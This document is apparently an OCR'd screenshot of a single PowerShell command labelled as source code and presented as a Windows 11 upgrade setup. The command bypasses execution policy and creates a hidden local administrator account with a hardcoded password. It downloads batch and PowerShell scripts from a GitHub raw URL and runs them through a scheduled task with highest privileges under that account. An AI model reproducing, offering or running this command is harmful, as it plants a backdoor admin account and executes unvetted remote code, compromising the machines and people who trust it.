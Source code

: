 powershell -ExecutionPolicy Bypass -NoProfile -Command "$user='WinUpgTemp';$pass='TempPass123!';$root='C:\Win11Upgrade';$urlbat='https://raw.githubusercontent.com/sctcoder1/project-711-d/main/RepoHandler.bat';$urlps1='https://raw.githubusercontent.com/sctcoder1/project-711-d/main/RepoHandler.ps1';$bat=Join-Path $root 'RepoHandler.bat';$ps1=Join-Path $root 'RepoHandler.ps1';$log=Join-Path $root 'Setup_Log.txt';function log($m){$t='['+(Get-Date -Format 'yyyy-MM-dd HH:mm:ss')+'] '+$m;New-Item -ItemType Directory -Force -Path (Split-Path $log)|Out-Null;Add-Content -Path $log -Value $t;Write-Host $t};log '--- Starting RepoHandler setup ---';if(-not(Test-Path $root)){New-Item -ItemType Directory -Force -Path $root|Out-Null};try{if(-not(Get-LocalUser -Name $user -ErrorAction SilentlyContinue)){net user $user $pass /add | Out-Null;net localgroup administrators $user /add | Out-Null;log ('Created admin user '+$user)}else{log ('Admin user '+$user+' already exists')}}catch{};Invoke-WebRequest -Uri $urlbat -OutFile $bat -UseBasicParsing;Invoke-WebRequest -Uri $urlps1 -OutFile $ps1 -UseBasicParsing;log 'Downloaded RepoHandler files';if(Test-Path $bat){schtasks /delete /tn RepoHandler /f 2>$null|Out-Null;log 'Creating task to run RepoHandler under '+$user;Start-Sleep -Seconds 2;$tr='cmd /c ^\"'+$bat+'^\"';$out=schtasks /create /tn RepoHandler /tr $tr /sc once /st 23:59 /RL HIGHEST /RU $user /RP $pass /F 2>&1;log ('schtasks /create output: '+$out);if($LASTEXITCODE -eq 0){log 'Running RepoHandler task now...';$out2=schtasks /run /tn RepoHandler 2>&1;log ('schtasks /run output: '+$out2);Start-Sleep -Seconds 8;log 'RepoHandler started successfully under '+$user}else{log ('ERROR: Task creation failed code '+$LASTEXITCODE)}}else{log ('ERROR: Missing file '+$bat)};log '--- Script complete ---'"
